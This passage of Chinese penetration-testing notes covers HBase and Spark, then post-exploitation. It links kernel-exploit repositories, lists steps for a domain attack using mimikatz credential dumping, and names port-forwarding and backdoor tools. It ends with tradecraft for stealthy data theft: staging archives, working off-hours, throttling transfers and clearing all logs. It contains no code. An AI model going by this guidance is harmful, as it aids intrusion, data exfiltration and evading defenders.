~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
HBase建立在HDFS之上，提供高可靠性、高性能、列存储、可伸缩、实时读写的数据库系统。

它介于NoSQL和RDBMS之间，仅能通过行键(row key)和行键序列来检索数据，仅支持单行事务(可通过Hive支持来实现多表联合等复杂操作)。主要用来存储非结构化和半结构化的松散数据。

与Hadoop一样，HBase目标主要依靠横向扩展，通过不断增加廉价的商用服务器，来增加计算和存储能力。

Spark
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Spark是UC Berkeley AMP lab所开源的类Hadoop MapReduce的通用的并行计算框架，Spark基于map reduce算法实现的分布式计算，拥有Hadoop MapReduce所具有的优点；但不同于MapReduce的是Job中间输出和结果可以保存在内存中，从而不再需要读写HDFS。


后渗透
----------------------------------------

提权
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- https://github.com/SecWiki/windows-kernel-exploits
- https://github.com/SecWiki/linux-kernel-exploits

域攻击
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 确定目标系统和应用程序
- 识别潜在的漏洞
- 利用漏洞获得初始访问
- 提升权限
- 定位域管理进程或者获取远程系统上的本地身份验证令牌
- 通过本地管理员的密码Hash，破解密码，使用mimikatz工具抓取密码验证运行在远程系统上的域名管理进程
- 迁移域管理进程
- 创建一个域管理员

建立后门/端口转发
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- LCX：windows下面的端口转发软件。
- sockscap：主要针对windows平台的端口转发和代理转发。
- proxifier：跨平台的端口转发和代理工具，适用windows，linux，
- Macos平台，代理转发利器
- Rsscoks：＊nix平台下的端口转发和代理工具，配合proxychains好用到不行。
- Proxychains：＊nix平台下老牌的socks代理工具，一般的系统都会自带，谁用谁知道。
- ssh proxy：通过ssh做端口代理和转发，一般＊nix系统都自带。
- netcat：socat，hping，在很多情况下可以做端口转发和数据代理转发。
- metasploit：metasploit的后渗透模块中有不少代理模块和端口转发模块

传输文件
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

制作后门/木马程序
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

日志清理
----------------------------------------

注意事项
----------------------------------------
- 检查内网监控防范系统
- 谨慎使用ARP软件和大面积扫描软件
- 使用目标网络中无空闲机器，作为打包对象
- 使用内网大流量机器作为传输对象，如wsus服务器、视频会议系统
- 使用临时机器打包、数据传输，不要使用已控机器，可利用wmi脚本或wmic远程操作
- 禁止使用psexec.exe
- 打包时避开用户工作时间
- 控制卷包大小<100M
- 选择用户常用压缩软件
- 错峰下载数据
- 控制传输流量
- 清除所有操作日志
- 登录主机前先看看管理员是否在
